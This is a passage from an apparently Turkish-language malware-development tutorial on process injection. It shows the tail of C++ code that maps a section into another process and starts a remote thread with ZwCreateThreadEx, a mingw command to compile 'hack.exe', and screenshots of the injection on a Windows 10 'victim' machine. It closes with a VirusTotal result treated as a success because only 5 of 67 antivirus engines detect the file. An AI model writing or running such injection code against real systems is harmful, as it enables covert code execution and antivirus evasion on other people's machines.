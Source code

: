 ```cpp
  printf("mapped at address: %p.\n", lb);
  myZwClose(sh);

  sh = NULL;

  // create new thread
  myZwCreateThreadEx(&th, 0x1FFFFF, NULL, pi.hProcess,
  rb, NULL, CREATE_SUSPENDED, 0, 0, 0, 0);
  printf("thread: %p.\n", th);
  ResumeThread(pi.hThread);
  myZwClose(pi.hThread);
  myZwClose(th);

  return 0;
}
```

### demo

Zararlı yazılımımızı derleyelim:     

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive
```

![injection 5](./images/35/2022-01-16_23-57.png){width="80%"}    

Şimdi her şeyi eylemde görelim! Bizim durumumuzda, kurban makine `Windows 10 x64`:     

![injection 6](./images/35/2022-01-17_00-04.png){width="80%"}    

![injection 7](./images/35/2022-01-17_00-08.png){width="80%"}    


Her şeyin mükemmel bir şekilde tamamlandığını görebiliyoruz :)    

Şimdi, zararlı yazılımımızı VirusTotal'a yükleyelim:    

![injection 8](./images/35/2022-01-17_00-11.png){width="80%"}    

[https://www.virustotal.com/gui/file/cca1a55dd587cb3e6b4768e6d4febe2966741063e6beac5951f119bf2ba193ae/detection](https://www.virustotal.com/gui/file/cca1a55dd587cb3e6b4768e6d4febe2966741063e6beac5951f119bf2ba193ae/detection)    

**Sonuç olarak, 67 antivirüs motorundan 5 tanesi dosyamızı zararlı olarak algıladı.**    

`Moneta64.exe` sonucu:     

![injection 9](./images/35/2022-01-17_16-03.png){width="80%"}    
